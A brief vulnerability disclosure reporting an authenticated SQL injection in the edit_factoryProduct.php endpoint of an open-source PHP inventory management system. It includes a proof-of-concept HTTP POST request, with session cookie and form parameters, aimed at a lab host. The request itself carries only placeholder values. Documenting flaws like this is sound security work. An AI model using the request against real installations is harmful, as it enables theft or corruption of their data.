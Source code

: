 



The Free and Open Source inventory management system has an SQL injection vulnerability that an attacker, if authenticated, can exploit to steal information or corrupt a database.





Source code address：https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html



The vulnerability is located in the /app/action/edit_factoryProduct.php file, and you can see in the code snippet that there is an operation to update the information.

![image-20250326144507703](images/image-20250326144507703.png)





Vulnerability verification：

```
POST /ample/app/action/edit_factoryProduct.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Cookie:  PHPSESSID=c4gam437gl7cc6hlbsgm3pplq4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

id=1&product_name=1&brand=1&p_catagory=1&quantity=1&alert_quantity=1&product_expense=1&selling_price=1
```

 ![image-20250326144457215](images/image-20250326144457215.png)



































